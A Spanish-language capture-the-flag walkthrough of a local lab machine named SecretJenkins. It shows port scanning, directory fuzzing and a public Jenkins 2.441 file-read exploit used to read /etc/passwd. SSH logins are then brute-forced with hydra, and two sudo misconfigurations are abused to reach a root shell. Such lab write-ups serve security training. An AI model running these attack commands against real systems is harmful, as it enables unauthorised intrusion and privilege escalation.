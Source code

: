 Maquina: SecretJenkins
Dificultad: Facil
![Logo](Imágenes/2025-05-15_20-59.png)

Se descarga la maquina vulnerable y se descomprime con unzip secretjenkins.zip y se despliega con el comando:  sudo bash auto_deploy.sh secretjenkins.tar
![Despliegue](Imágenes/Capturas.png)

Se realiza un ping -c1 172.17.0.3 para confirmar la conexion de la maquina 
![Ping](Imágenes/Capturas_1.png)

Se realiza scaneo con sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt y se encuentran los puertos:
22 ssh
8080 http
![Puertos](Imágenes/Capturas_2.png)

Con mi script personalisado extractPorts allPorts.txt se extrae los puertos abiertos para usarlo en nmap -sCV -p22,8080 172.17.0.3 -oN target.txt y poder ver versiones
![Servicios](Imágenes/Capturas_3.png)

Al entrar http://172.17.0.3:8080/ podemos ver un registro de login del servicio de Jenkins
![Pagina](Imágenes/Capturas_4.png)

Realizamos fuzzing gobuster dir -u http://172.17.0.3:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt se encontro varios directorios ocultos revisamos cada uno de ellos para ver si encontramos alguna vulnerabilidad.
Nota: se cae la pagina esto nos siguiere que se podria un ataque DOS o DDOS, al revisar los directorios no encotre nada al ser demasiados directorios
![Fuzzing](Imágenes/Capturas_5.png)

Busque la version de Jenkins con el comando: whatweb 'http://172.17.0.3:8080/' y encontre que esta trabajando en la verison Jenkins[2.441] busque alguna vulnerabilidad con searchsploit jenkins pero no encontre ninguna con esta version
En internet encontre un Jenkins 2.441 - Local File Inclusion https://www.exploit-db.com/exploits/51993 un script en python3 lo copie y lo pegue en un archivo nano local_host_intrusion.py le di permisos chmod +x local_host_intrusion.py y lo ejecute 
python3 local_host_intrusion.py -u http://172.17.0.3:8080
![whatweb](Imágenes/Capturas_6.png)

Luego el script te pedirá rutas de archivos para leer y buscamos archivos como usuarios o contraseñas leemos el /etc/passwd/ encotramos los usuarios de pinguinito, root y bobby 
![sxploit](Imágenes/Capturas_7.png)

Con los usuarios encontrados los puse en nano usuarios.txt para usarlo con hydra y encontrar las credenciales para entrar al servidor SHH ya que con nmap confirmamos que se encutra abierto
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4 y se encontro las credenciales
[22][ssh] host: 172.17.0.3   login: bobby   password: chocolate
![hydra](Imágenes/Capturas_8.png)

Entre a SSH con las credenciales encontradas y entro como usuario bobby y busco una escalada con sudo -l y econtre (pinguinito) NOPASSWD: /usr/bin/python3 asi que ejecuto: sudo -u pinguinito /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")' 
para ser usuario pinguinito
![usuario](Imágenes/Capturas_9.png)

Con sudo -l encontramos que pinguinito  (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py asi que borre el script.py que se encuentra en opt y ejecute echo 'import os; os.system("/bin/bash")' > /opt/script.py para crear un archivo para escalar root
y lo ejecute sudo /usr/bin/python3 /opt/script.py
![usuario](Imágenes/Capturas_10.png)
